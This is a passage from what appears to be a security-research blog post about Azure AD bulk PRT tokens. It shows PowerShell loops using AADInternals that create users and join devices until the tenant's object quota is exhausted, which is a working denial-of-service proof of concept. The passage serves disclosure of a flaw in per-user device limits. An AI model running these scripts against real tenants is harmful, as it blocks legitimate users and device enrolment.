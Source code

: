 # Create objects until quota reached
for($a = 1 ; $a -lt 50000 ; $a++)
{
    $name = 'BPRT-{0:d5}' -f $a
    try{
        New-AADIntBulkPRTToken -Name $name | Out-Null
    } catch{}
}
{{< /highlight>}}

The throughput is only 23 users per minute, so I eventually used multiple PowerShell sessions to speed things up.

The following animation shows that after the quota is reached, no new users can be added:

![BPRT DOS](/images/posts/BPRT_DOS.gif)

## Fill Azure AD with devices

As we've learned, the BPRT can be used join devices to Azure AD and Intune. As the BPRT represents a user, it would be 
fair to assume that the same limitations apply to those users as well. Especially, when the WCD mentiones that the default limit is 20:

![WCD limit](/images/posts/bprt_6.png)

In my test tenant, I had a 50 device limit per user:

![device settings](/images/posts/bprt_7.png)

Guess what? Yep, that device limit does not apply for "BPRT users" ☹

Again, in practice, this means that a **normal user can create device objects until the Azure AD quota limit is reached!** 🤦‍

To demonstrate this, I used the following simple script to fill Azure AD with devices:

{{< highlight powershell >}}
# Get the access token
Get-AADIntAccessTokenForAADJoin -BPRT $bprt -SaveToCache

# Create devices until quota reached
for($a = 1 ; $a -lt 50000 ; $a++)
{
    $name = 'DEV-{0:d5}' -f $a
    try{
        Join-AADIntDeviceToAzureAD -DeviceName $name
    } catch{}
}
{{< /highlight>}}
